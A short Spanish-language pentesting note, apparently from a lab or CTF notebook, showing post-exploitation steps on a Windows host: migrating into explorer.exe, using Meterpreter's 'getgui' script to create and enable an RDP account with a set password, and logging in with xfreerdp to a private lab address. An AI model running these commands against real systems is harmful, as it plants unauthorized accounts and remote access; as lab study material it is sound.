 Una vez dentro, tenemos que ser el usuario administrador y mirarnos al proceso de explorer.exe:
![[Pasted image 20230801124356.png]]
![[Pasted image 20230801124529.png]]
Una vez migrado, tenemos que crear un usuario para el protocolo RDP y activarlo:
```bash
run getgui -e -u pinguino -p hack_123
```
![[Pasted image 20230801124656.png]]
Una vez hecho esto, ya podremos entrar dentro del protocolo RDP usando estas credenciales con la herramienta xfreerdp:
```bash
xfreerdp /u:pinguino /p:hack_123 /v:10.2.27.219
```
![[Pasted image 20230801124859.png]]
